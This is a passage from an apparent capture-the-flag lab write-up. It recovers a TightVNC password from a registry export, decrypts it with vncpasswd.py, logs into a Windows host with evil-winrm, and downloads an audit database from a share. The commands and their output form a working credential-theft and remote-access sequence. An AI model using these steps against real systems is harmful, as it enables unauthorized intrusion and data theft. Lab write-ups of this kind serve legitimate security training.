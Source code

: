 Also, we quickly zoom in on a VNC registry entry. (VNC is a remote access software.)

```
# cat './IT/Temp/s.smith/VNC Install.reg'
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
<SNIP>
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

We find what seems to be the password for the VNC application.

## VNC Password Decryption

Online research shows that the VNC password is encrypted. There are several tools for decrypting it.

We can decrypt it with [this utility - vncpasswd.py](https://github.com/trinitronx/vncpasswd.py). The `-H` flag tells the utility to expect hex input.

```
# python2 ./vncpasswd.py -d -H 6bcf2a4b6e5aca0f
<SNIP>
Decrypted Bin Pass= 'sT333ve2'
Decrypted Hex Pass= '7354333333766532'
```

Time to try this new credential it out on other services.

## Database Dumping

As winrm gives us the most direct channel into the machine, it's a good idea to try it first. 

```
# evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> ls
```

We can find **user.txt** in the Desktop folder.

Our earlier enumeration shows that there is an Audit share. While `r.thompson` does not have access to it, `s.smith` does. Let's see what we can find inside.

```
*Evil-WinRM* PS C:\Shares\Audit\DB> ls


    Directory: C:\Shares\Audit\DB


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/28/2020   9:39 PM          24576 Audit.db


*Evil-WinRM* PS C:\Shares\Audit\DB> download Audit.db
Info: Downloading C:\Shares\Audit\DB\Audit.db to Audit.db
```
